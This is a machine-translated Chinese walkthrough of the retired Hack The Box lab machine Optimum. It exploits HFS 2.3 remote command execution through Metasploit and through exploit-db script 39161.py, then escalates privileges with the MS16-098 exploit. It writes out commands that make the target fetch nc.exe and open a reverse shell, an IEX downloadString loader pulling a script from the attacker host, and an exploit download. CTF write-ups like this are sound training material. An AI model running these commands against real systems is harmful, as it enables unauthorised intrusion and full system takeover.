# 保持冷静，黑盒子-最佳

> 原文：<https://www.freecodecamp.org/news/keep-calm-and-hack-the-box-optimum/>

黑客盒子(HTB)是一个在线平台，让你测试你的渗透测试技能。它包含几个不断更新的挑战。有些是模拟真实世界的场景，有些更倾向于 CTF 风格的挑战。

**注**。*只允许报道退役的 HTB 机器。*



Optimum 是一个初学者级别的机器，主要侧重于列举已知利用的服务。这两种利用都很容易获得，并且都有相关联的 Metasploit 模块，使得该机器很容易完成

我们将使用以下工具将盒子典当在一个 [Kali Linux 盒子](https://www.kali.org/)上

*   [nmap](https://nmap.org/)
*   [zenmap](https://nmap.org/zenmap/)
*   [searchsploit](https://www.exploit-db.com/searchsploit)
*   [metasploit](https://www.metasploit.com/)

## 步骤 1 -扫描网络

开发一台机器的第一步是做一些扫描和侦察。

这是最重要的部分之一，因为它将决定你以后可以尝试利用什么。在这个阶段花更多的时间来获取尽可能多的信息总是更好的。

我将使用 Nmap(网络映射器)。Nmap 是一个用于网络发现和安全审计的免费开源工具。它使用原始 IP 数据包来确定网络上有哪些主机可用、这些主机提供什么服务、它们运行什么操作系统、使用什么类型的包过滤/防火墙以及许多其他特征。

这个工具有许多命令可以用来扫描网络。如果你想了解更多，你可以看看文档[这里](https://tools.kali.org/information-gathering/nmap)



我使用以下命令来获得我们正在扫描的内容的基本概念

```
nmap -sV -O -F --version-light 10.10.10.8
```

**-sV:** 探测开放端口以确定服务/版本信息

**-O:** 启用操作系统检测

**-F:** 快速模式-扫描比默认扫描更少的端口

**-版本-光:**限于最可能的探针(强度 2)

**10.10.10.8:** 最佳盒的 IP 地址

您也可以使用 Zenmap，它是官方的 nmap 安全扫描器 GUI。这是一个多平台、免费和开源的应用程序，旨在使 Nmap 易于初学者使用，同时为有经验的 Nmap 用户提供高级功能。



我使用一组不同的命令来执行密集扫描

```
nmap -A -v 10.10.10.8
```

**-A:** 启用操作系统检测、版本检测、脚本扫描和跟踪路由

**-v:** 增加详细级别

**10.10.10.8:** 最佳盒的 IP 地址

如果您发现结果有点令人不知所措，您可以转到**端口/主机**选项卡，只获得开放的端口



我们可以看到有一个开放的端口:

****港口** 80** 。超文本传输协议(HTTP)。这里是一个 HttpFileServer httpd 2.3

目前，这是我们的主要目标

## **步骤 2 -访问网站**

让我们试试**端口 80** 并访问 **http://10.10.10.8**



我们可以在页面底部看到服务器信息。我们有一个 HttpFileServer 2.3

HTTP 文件服务器，也被称为 HFS，是一个专门为发布和共享文件而设计的免费网络服务器。

官方文件将 HFS 描述为:

> HFS (Http 文件服务器)是一个文件共享软件，允许你发送和接收文件。您可以将这种共享限制在几个朋友之间，也可以对全世界开放。HFS 不同于传统的文件共享，因为它没有网络。HFS 是一个网络服务器，它使用网络技术来更好地兼容今天的互联网。由于它实际上是一个网络服务器，您的朋友可以下载文件，就像他们使用网络浏览器(如 Internet Explorer 或 Firefox)从网站下载一样。您的用户不必安装任何新软件。HFS 让你分享你的文件。大多数网络服务器都是用来发布网站的，但 HFS 不是为发布网站而设计的。然而，你可以随意使用它，但要自担风险。


[https://www.rejetto.com/hfs/](https://www.rejetto.com/hfs/)

我使用 **Searchsploit** 来检查 HFS 上是否有任何已知的漏洞。Searchsploit 是一款针对 **[漏洞数据库](https://www.exploit-db.com/)** 的命令行搜索工具



我使用以下命令

```
searchsploit HFS
```

我们可以看到几个漏洞，但是我们将使用这个命令检查**重新连接到 HTTP 文件服务器(HFS) -远程命令执行(Metasploit)**

```
searchsploit -x 34926.rb
```

我们有一个利用和代码的摘要



在描述中我们可以看到

> 由于文件 ParserLib.pas 中的正则表达式不正确，Rejetto HttpFileServer (HFS)易受远程命令执行攻击。此模块通过使用“%00”绕过过滤来利用 HFS 脚本命令。该模块已在 HFS 2.3b 上通过测试，成功运行于 Windows XP SP3、Windows 7 SP1 和 Windows 8 上。

我们也可以在漏洞数据库网站上找到该漏洞



[https://www.exploit-db.com/exploits/34926](https://www.exploit-db.com/exploits/34926)

以及在 Rapid7 网站上



[https://www.rapid7.com/db/modules/exploit/windows/http/rejetto_hfs_exec](https://www.rapid7.com/db/modules/exploit/windows/http/rejetto_hfs_exec)

我们知道应用程序的版本是 **HttpFileServer 2.3**

我们将使用 **Metasploit** ，这是一个渗透测试框架。这是许多攻击者和防御者的必备工具


[https://www.metasploit.com/](https://www.metasploit.com/)

我在 Kali 上启动 **Metasploit 框架**,并寻找我应该用来启动漏洞利用的命令



如果您想获得更多关于这个漏洞的信息，您可以使用下面的命令

```
info exploit/windows/http/rejetto_hfs_exec
```

您将获得一些关于该漏洞的详细信息



我使用以下命令来利用漏洞

```
use exploit/windows/http/rejetto_hfs_exec
```

在利用漏洞之前，我需要设置几个选项



我首先用下面的命令设置 **RHOSTS**

```
set RHOSTS 10.10.10.8
```

我设置了 **SRHVOST**

```
set SRHVOST 10.10.14.23
```

当我检查选项时，我得到这个



然后，我用以下命令运行漏洞利用

```
exploit
```

我得到了一个**米普雷特**会话

从[攻击性安全](https://www.offensive-security.com/metasploit-unleashed/meterpreter-basics/)网站上，我们得到了对 Meterpreter 的定义

> Meterpreter 是一个高级的、可动态扩展的有效负载，它使用*内存中的* DLL 注入阶段，并在运行时通过网络进行扩展。它通过 stager 套接字进行通信，并提供全面的客户端 Ruby API。它具有命令历史，标签完成，渠道，等等。

你可以在这里阅读更多关于 Meterpreter [的内容。](https://www.offensive-security.com/metasploit-unleashed/about-meterpreter/)



让我们从收集一些信息开始

**getuid** 返回调用进程的真实用户 id， **sysinfo** 返回内存和交换空间使用的统计数据，以及平均负载



如果我们仔细观察，可以看到 Optimum 的架构是 ****x64**** ，但是我们的 meterpreter 版本设置为 x86。我们需要改变这一切！

我用命令将这个会话放在后台

```
background
```

我再次检查模块选项，发现有效负载选项设置不正确



它正在使用

```
windows/meterpreter/reverse_tcp
```

代替

```
windows/x64/meterpreter/reverse_tcp
```

我用下面的命令设置了有效负载

```
set payload windows/x64/meterpreter/reverse_tcp
```



我得到另一个 meterpreter 会话，当我检查 **sysinfo** 时，我可以看到这次我有正确的 meterpreter 版本， **x64/windows**



## **步骤 3 -** 寻找 user.txt 标志

现在我有了一个会话，我可以用下面的命令列出所有的文件/文件夹

```
ls
```

我找到了用户标志！我可以检查文件的内容

```
cat user.txt.txt
```



我试图导航到管理员文件夹，但得到一个访问被拒绝的消息。我需要进行权限提升来捕获 root.txt 标志



## **步骤 4 -使用 Metasploit 进行权限提升**

我将使用模块**后/多/侦察/本地 _ 剥削者 _ 建议者**

从 Rapid7 网站上，我得到了这个

> 此模块建议可以使用的本地 meterpreter 漏洞。根据用户打开的外壳的体系结构和平台以及 meterpreter 中可用的攻击来建议攻击。需要注意的是，并不是所有的本地漏洞都会被触发。攻击的选择基于以下条件:会话类型、平台、体系结构和所需的默认选项。



我检查了选项，列出了所有的会议，以确保选择正确的一个



我将会话 2 设置为将漏洞指向 x64 meterpreter 会话

```
set SESSION 2
```

并将描述设置为对任何建议利用的详细解释

```
set SHOWDESCRIPTION true
```



我启动了漏洞利用，但似乎没有任何回报



回到第二阶段

```
sessions 2
```

再次检查 sysinfo 可以给我们更多关于操作系统的信息。我们可以看到这是一个 Windows 2012 R2



我在谷歌上搜索 Windows 2012 R2 上的任何权限提升漏洞，结果发现了这个漏洞



[https://www.rapid7.com/db/modules/exploit/windows/local/ms16_032_secondary_logon_handle_privesc](https://www.rapid7.com/db/modules/exploit/windows/local/ms16_032_secondary_logon_handle_privesc)

以及 MS16-032 上的官方 Microsoft 安全公告



[https://docs.microsoft.com/en-us/security-updates/securitybulletins/2016/ms16-032](https://docs.microsoft.com/en-us/security-updates/securitybulletins/2016/ms16-032)

回到 Metasploit，我检查是否有任何可用的漏洞，我发现一个

```
search ms16-032
```



我检查了选项并设置了**会话**

```
set SESSION 3
```

**LHOST**

```
set LHOST 10.10.14.27
```

而**目标**为 Windows x64

```
set TARGET 1
```

我检查选项，看看是否一切都配置正确



我启动了漏洞利用，但它似乎不再工作。我需要在没有 Metasploit 帮助的情况下手动利用它！


## **步骤 5 -创建一个**低权限反向外壳

回到 searchsploit，我检查来自

```
searchsploit HFS
```



我可以看到几个漏洞，但是我将首先用这个命令检查**‘2.3 . x-远程命令执行(1)’**

```
searchsploit -x 34668.txt
```

我有一个利用的解释



然后我用这个命令检查了**‘2.3 . x-远程命令执行(2)’**

```
searchsploit -x 39161.py
```

我有漏洞和代码的摘要。然后我看了一下代码和描述

> 您可以使用 HFS (HTTP 文件服务器)发送和接收文件。它不同于传统的文件共享，因为它使用网络技术来更好地兼容今天的互联网。它也不同于传统的 web 服务器，因为它非常容易使用，并且“开箱即用”。通过网络访问您的远程文件。已经在 Linux 下用 Wine 测试成功。

然后在注释中解释说，它依赖于一个 web 服务器来下载并利用**nc.exe**来获得反向外壳

> 你需要使用托管 netcat 的网络服务器(http:// <attackers_ip>:80/nc.exe)</attackers_ip>



如果您查看 **searchsploit** 的帮助部分，我们可以将漏洞复制到当前目录



我使用下面的命令来复制文件

```
searchsploit -m 39161.py
```



然后我使用这个命令来修改文件

```
nano 39161.py
```

并将硬编码的 IP 地址更改为攻击机器的地址——在本例中是我的机器

```
ip_addr = "10.10.14.27" #local IP address
```



我创建了一个 **www** 文件夹



我抄完了 nc.exe 的



我发起攻击。在左上方的第一个窗口中，我启动了一个小型 python 服务器

```
python -m SimpleHTTPServer 80
```

Python 附带的 **SimpleHTTPServer** 模块是一个简单的 HTTP 服务器，它提供标准的 GET 和 HEAD 请求处理程序

右上角的第二个窗口有 netcat 监听。我在端口 ****443**** 上设置了一个 ****Ncat**** 监听器来捕获反向 shell 连接

> Ncat 是一个功能丰富的网络实用程序，可以从命令行通过网络读写数据。Ncat 是为 Nmap 项目编写的，是古老的 [Netcat](http://sectools.org/tool/netcat/) 的改进版。它使用 TCP 和 UDP 进行通信，旨在成为一个可靠的后端工具，为其他应用程序和用户即时提供网络连接

你可以在这里了解更多关于 Ncat [的信息](https://nmap.org/book/ncat-man.html)

```
nc -nvlp 443 10.10.10.8
```

第三个窗口利用了 python 我不得不启动脚本两次，一次是触发**nc.exe**,另一次是获取反向 shell

python 漏洞(第三个窗口)将连接到 python 服务器(第一个窗口)以下载 nc.exe Windows 二进制文件。然后，nc.exe 连接回端口 443(第二个窗口)上的 Ncat 监听器，并将创建一个低权限反向外壳

```
python 39161.py 10.10.10.8 80
```

您可以检查这台机器上的用户是不是 Kostas

```
C:\Users\kostas\Desktop>
```



然后我可以在 Kostas 机器上导航以获取用户标志！

我在机器上用命令检查我是谁，

```
whoami
```

列出文件/文件夹

```
dir
```

和显示用户标志内容

```
type user.txt.txt
```



我找到用户标志了！现在让我们得到根标志:)

## **步骤 6a -使用**GDS security/**Windows-Exploit-Suggester**

我用显示系统信息

```
systeminfo
```

我将调查结果复制/粘贴到一个 **systeminfo.txt** 文件中



我将使用来自 [GDSSecurity](https://github.com/AonCyberLabs/Windows-Exploit-Suggester) 的 Windows-Exploit-Suggester

> 该工具将目标修补程序级别与 Microsoft 漏洞数据库进行比较，以检测目标上潜在的缺失修补程序。它还会通知用户是否存在针对缺失公告的公开攻击和 Metasploit 模块。

> 它需要从 Windows 主机输出“systeminfo”命令，以便与 Microsoft 安全公告数据库进行比较，并确定主机的修补程序级别。

> 它能够使用- update 标志从 Microsoft 自动下载安全公告数据库，并将其保存为 Excel 电子表格。

我将原始的 windows-exploit-suggest python 脚本复制/粘贴到一个文件上，然后修改该文件

```
nano windows-exploit-suggester.py
```

粘贴来自 [GitHub 库](https://raw.githubusercontent.com/GDSSecurity/Windows-Exploit-Suggester/master/windows-exploit-suggester.py)的代码。我们现在把两个文件放在同一个文件夹中， **systeminfo.txt** 和**windows-exploit-suggester . py**



我可以用下面的命令找到关于这个工具的更多信息

```
python windows-exploit-suggester.py -h
```


我用下面的命令更新工具的数据库

```
python windows-exploit-suggester.py --update
```



我用运行脚本

```
python windows-exploit-suggester.py --systeminfo systeminfo.txt --database 2019-10-08-mssb.xls
```



我发现这台机器上有几份简历不见了。我将针对 MS16-032 漏洞



## 步骤 6b -使用夏洛克枚举 kb

我将使用夏洛克来枚举这台机器上的知识库。夏洛克是一个 PowerShell 脚本，用于快速查找本地权限提升漏洞的缺失软件补丁。

你可以在这里了解更多关于夏洛克的信息

当我在**步骤 6a** 中运行 sysinfo 命令时，我可以看到一个 kb 列表。KB 代表知识库。Microsfot 将其定义为

> Microsoft 知识库有超过 150，000 篇文章。这些文章是由成千上万为我们的客户解决问题的支持专业人员创作的。Microsoft 知识库会定期更新、扩展和完善，以确保您能够获得最新的信息。

您可以在此了解有关知识库[的更多信息](https://support.microsoft.com/en-gb/help/242450/how-to-query-the-microsoft-knowledge-base-by-using-keywords-and-query)

我将夏洛克存储库克隆到我的本地，并将其移动到 **www/** 文件夹



我修改了文件 **Sherlock.ps1** ，并在 Powershell 脚本的末尾添加了 **Find-Allvulns** ，用

```
nano Sherlock.ps1
```



然后，我使用以下命令

```
wget "http://10.10.14.27//sherlock/Sherlock.ps1"
```

从科斯塔斯的机器上取文件



然后，我用下面的命令启动夏洛克

```
IEX(New-Object Net.Webclient).downloadString('http://10.10.14.27/sherlock/Sherlock.ps1')
```

它将遍历所有知识库



并返回哪些是易受攻击的



## **步骤 7 -使用 RGNOBJ 整数溢出进行权限提升**

在**步骤 6a** ，当我从 Windows 漏洞利用提示器得到结果时，其中一个漏洞利用目标是 Windows 8.1 (x64)


如果我们看一下微软的文档，我们可以看到 Windows Server 2012 R2 与 Windows 8.1 相关，并且具有相同的内部版本号。我们可以假设这个漏洞也可以在上面工作



[https://docs.microsoft.com/en-gb/windows/win32/sysinfo/operating-system-version?redirectedfrom=MSDN](https://docs.microsoft.com/en-gb/windows/win32/sysinfo/operating-system-version?redirectedfrom=MSDN)

我在**上寻找线索**

```
searchsploit m16-098
```



我也可以在漏洞数据库网站上找到它



[https://www.exploit-db.com/exploits/41020](https://www.exploit-db.com/exploits/41020)

我使用下面的命令来复制文件

```
searchsploit -m 41020.c
```



该漏洞需要编译后才能执行。我用检查代码

```
cat 41020.c
```

我可以在评论中看到该漏洞有一个可以使用的预编译 Windows 二进制文件



我用 **wget** 命令复制漏洞，并将文件移动到我的 **www** 文件夹中

```
wget https://github.com/offensive-security/exploitdb-bin-sploits/raw/master/bin-sploits/41020.exe
```



我建立了另一个 python 服务器——我杀死了前一个。

```
python -m SimpleHTTPServer 80
```

在另一个窗口，在 Kostas 机器上，我使用 powershell 下载漏洞

```
powershell wget "http://10.10.14.27/41020.exe" -outfile "exploit.exe"
```

然后，我使用

```
exploit.exe
```



通过检查机器上的我是谁，我可以看到权限提升是成功的

```
whoami
```

它回来了

```
nt authority\system
```

我是管理员

让我们现在找到根旗！我导航到用户并签入到管理员/桌面文件夹。我找到旗子了！



我使用以下命令来查看文件的内容

```
type root.txt
```

恭喜你。你找到了两面旗子！

* * *

请随时评论、提问或与朋友分享:)

你可以在这里看到更多我的文章

你可以在推特上关注我，也可以在 T2 的 LinkedIn 上关注我

别忘了# **GetSecure** ，# **BeSecure** ，# **StaySecure** ！

* * *

****其他黑盒子文章****

*   [保持冷静，黑掉瘸子](https://www.freecodecamp.org/news/keep-calm-and-hack-the-box-lame/)
*   [保持冷静，黑掉盒子——遗产](https://www.freecodecamp.org/news/keep-calm-and-hack-the-box-legacy/)
*   保持冷静，黑掉盒子
*   [保持冷静，黑盒子——哔](https://www.freecodecamp.org/news/keep-calm-and-hack-the-box-beep/)

